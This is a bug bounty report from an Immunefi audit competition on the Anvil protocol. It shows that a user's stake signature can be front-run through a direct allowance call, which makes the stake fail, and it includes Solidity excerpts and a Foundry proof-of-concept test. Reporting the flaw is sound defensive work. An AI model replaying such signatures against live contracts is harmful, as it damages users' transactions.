 # #36268 \[SC-Medium] stake with signature can be front-run lead to user's stake failed

**Submitted on Oct 27th 2024 at 05:37:13 UTC by @coffiasd for** [**Audit Comp | Anvil**](https://immunefi.com/audit-competition/audit-comp-anvil)

* **Report ID:** #36268
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://etherscan.io/address/0xd042C267758eDDf34B481E1F539d637e41db3e5a
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

User stake assets to pool by invoke stake along with signed signature , this action can be front-run lead to user's stake failed

## Vulnerability Details

The signature can be used to invoke CollateralVault::modifyCollateralizableTokenAllowanceWithSignature directly to change the allowcance of specifc ERC20 token.Due to the Nonce auto increased , user's transaction will result in failed.

## Impact Details

User have to make another transaction , if this ERC20 token's approve state changed, user is unable to stake again.

## References

\`\`\`solidity function stake( IERC20 \_token, uint256 \_amount, bytes calldata \_collateralizableApprovalSignature ) external withEligibleAccountTokensReleased(msg.sender, address(\_token)) returns (uint256) { if (\_collateralizableApprovalSignature.length > 0) { collateral.modifyCollateralizableTokenAllowanceWithSignature( msg.sender, address(this), address(\_token), Pricing.safeCastToInt256(\_amount), \_collateralizableApprovalSignature ); }

```
    return _stake(_token, _amount);
}
```

\`\`\`

\`\`\`solidity function modifyCollateralizableTokenAllowanceWithSignature( address \_accountAddress, address \_collateralizableContractAddress, address \_tokenAddress, int256 \_allowanceAdjustment, bytes calldata \_signature ) external { if (\_allowanceAdjustment > 0 && !collateralizableContracts\[\_collateralizableContractAddress]) revert ContractNotApprovedByProtocol(\_collateralizableContractAddress);

```
    _modifyCollateralizableTokenAllowanceWithSignature(
        _accountAddress,
        _collateralizableContractAddress,
        _tokenAddress,
        _allowanceAdjustment,
        _signature
    ); //@audit this can be front-run and break the func.
}
```

\`\`\`

## Link to Proof of Concept

https://gist.github.com/coffiasd/815078ec565993e6e74874f944629706

## Proof of Concept

## Proof of Concept

\`\`\`solidity function testUserStakeFromPool() public { uint256 privateKey = 123; address alice = vm.addr(privateKey); MockERC20 token = MockERC20Tokens\[0]; uint256 amount = 1e18; deal(address(token),alice,amount);

```
    uint256[] memory amounts &#x3D; new uint256[](1);
    address[] memory tokens &#x3D; new address[](1);
    amounts[0] &#x3D; amount;
    tokens[0] &#x3D; address(token);

    //depositAndApprove.
    vm.startPrank(alice);
    token.approve(address(colla), amount);
    colla.depositAndApprove(tokens, amounts, address(pool));
    vm.stopPrank();

    bytes32 hash &#x3D; bytes32(0x082cb21d17680735512c9f8fae9ea433c5d7e18b2a4d9a2f0adadbf56761c4d6);

    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(privateKey, hash);
    bytes memory signature &#x3D; abi.encodePacked(r, s, v);

    colla.modifyCollateralizableTokenAllowanceWithSignature(alice,address(pool),address(token),1e18,signature);

    vm.prank(alice);
    pool.stake(IERC20(address(token)),1e18,signature);
}
```

\`\`\`
